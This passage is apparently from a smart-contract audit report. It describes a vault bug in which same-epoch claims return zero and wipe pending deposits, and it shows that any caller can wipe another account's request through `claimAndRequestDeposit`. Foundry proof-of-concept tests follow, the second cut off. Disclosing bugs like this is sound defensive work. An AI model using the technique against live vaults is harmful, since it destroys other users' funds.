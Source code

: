 However, there is no validation to check if the claiming is done for the current unsettled epoch. If a user claims a deposit or redemption during the same epoch it has been requested, the values stored in `epochs[epochId]` will be uninitialized, which means that `_convertToShares()` and `_convertToAssets()` will use zero values leading to zero results too. The claiming process will succeed, but since the converted amounts are zero, the users will always get zero assets or shares.

This is even worsened by the fact that `claimAndRequestDeposit()` can be used to claim a deposit on behalf of any account. An attacker can wipe any requested deposit from an arbitrary `account` by simply calling `claimAndRequestDeposit(0, account, "")`. This will internally execute `_claimDeposit(account, account)`, which will trigger the described issue.

## Proof of concept

The following proof of concept demonstrates the scenario in which a user claims their own deposit during the current epoch:

```solidity
function test_ClaimSameEpochLossOfFunds_Scenario_A() public {
    asset.mint(alice, 1_000e18);

    vm.prank(alice);
    vault.deposit(500e18, alice);

    // vault is closed
    vm.prank(owner);
    vault.close();

    // alice requests a deposit
    vm.prank(alice);
    vault.requestDeposit(500e18, alice, alice, "");

    // the request is successfully created
    assertEq(vault.pendingDepositRequest(alice), 500e18);

    // now alice claims the deposit while vault is still open
    vm.prank(alice);
    vault.claimDeposit(alice);

    // request is gone
    assertEq(vault.pendingDepositRequest(alice), 0);
}
```

This other proof of concept illustrates the scenario in which an attacker calls `claimAndRequestDeposit()` to wipe the deposit of another account.

```solidity
function test_ClaimSameEpochLossOfFunds_Scenario_B() public {
    asset.mint(alice, 1_000e18);

    vm.prank(alice);
    vault.deposit(500e18, alice);

    // vault is closed
    vm.prank(owner);
    vault.close();

    // alice requests a deposit
    vm.prank(alice);
    vault.requestDeposit(500e18, alice, alice, "");

    // the request is successfully created
    assertEq(vault.pendingDepositRequest(alice), 500e18);

    // bob can issue a claim for alice through claimAndRequestDeposit()
    vm.prank(bob);
```